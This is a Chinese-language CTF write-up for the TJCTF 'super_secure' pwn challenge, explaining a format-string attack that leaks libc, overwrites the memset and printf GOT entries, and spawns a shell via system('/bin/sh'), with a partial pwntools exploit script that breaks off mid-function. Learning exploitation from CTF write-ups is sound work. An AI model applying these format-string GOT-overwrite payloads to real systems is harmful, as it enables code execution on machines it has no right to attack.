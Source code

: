 那么开始解题拿flag:-)

首先泄露libc，这个可以在没loop之前得到，跑两次就行了。

![](http://wx2.sinaimg.cn/mw690/0060lm7Tly1fu859upxflj30op09d74j.jpg)

然后就让程序循环，利用got表可写的特性将memset的真实地址覆盖为_start，这里\_start其实就是程序的入口点，它负责调用main函数。接着泄露一次printf的真实地址，计算得到system的真实地址，再构造payload将printf覆盖为system。最后传`"/bin/sh\0"`，`get_message`的`printf(a)`实际上就是`system("/bin/sh")`。

exp如下

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
from sys import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c' ]
context.binary = './super_secure'

elf = context.binary
if argv[1] == 'l':
	io = process('./super_secure')
	libc = elf.libc
else:
	io = remote('problem1.tjctf.org', 8009)
	libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')

def DEBUG():
	gdb.attach(io,'b *0x400c60\nb *0x400CD5\nc\n')

def mysend(payload,flag=False):

	io.sendlineafter("> ","s")
	io.sendlineafter(":\n","111111")
	io.sendlineafter(":\n",payload)
	
	io.sendlineafter("> ","v")
	io.sendlineafter(":\n","111111")
	if not flag:
		io.sendline("f**kyo")

def set_to_memset():
	
	payload = ("%{}c%{}$hn".format(elf.sym["_start"]&0xffff,28)).ljust(16,'+') + p64(elf.got['memset'])
	mysend(payload)

def leak(addr):

	payload = "++%27$s+" + p64(addr)
	mysend(payload)

	io.recvuntil("++")
	real_addr = io.recvuntil("+")[:-1]
	real_addr = u64( real_addr + "\x00"*(8-len(real_addr)) )

	print hex(real_addr)
	return real_addr 

def printf_to_system(printf_addr):

```